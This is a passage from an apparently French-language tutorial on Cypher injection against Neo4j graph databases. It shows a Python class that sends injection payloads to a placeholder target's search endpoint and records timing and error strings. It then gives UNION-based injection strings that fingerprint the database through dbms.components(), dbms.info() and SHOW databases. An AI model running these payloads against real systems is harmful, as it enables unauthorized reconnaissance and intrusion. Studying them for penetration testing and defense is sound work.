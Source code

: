```python
            "84/2",
            "randomstring123"
        ]
    
    def test_endpoint(self, endpoint, param):
        results = {}
        
        # Test baseline
        normal_response = requests.get(f"{self.base_url}{endpoint}?{param}=test")
        baseline_time = normal_response.elapsed.total_seconds()
        
        for payload in self.payloads:
            try:
                start_time = time.time()
                response = requests.get(f"{self.base_url}{endpoint}?{param}={payload}")
                response_time = time.time() - start_time
                
                results[payload] = {
                    'status': response.status_code,
                    'length': len(response.text),
                    'time': response_time,
                    'error_detected': 'Neo.ClientError' in response.text
                }
            except Exception as e:
                results[payload] = {'error': str(e)}
        
        return results

# Usage
tester = CypherInjectionTester("https://target.com")
results = tester.test_endpoint("/api/search", "query")
```

***

### 7. Techniques d'Exploitation

#### 7.1 Reconnaissance de la Base de Données

**🕵️ Fingerprinting de la Base**

```cypher
-- 🎯 Identifier le type de base graphique
' RETURN "test" UNION CALL dbms.components() YIELD name, versions //
-- Neo4j retournera ses composants

-- 🔍 Version Neo4j
' RETURN "test" UNION CALL dbms.info() YIELD name, value //

-- 📊 Informations système
' RETURN "test" UNION SHOW databases YIELD name //
```

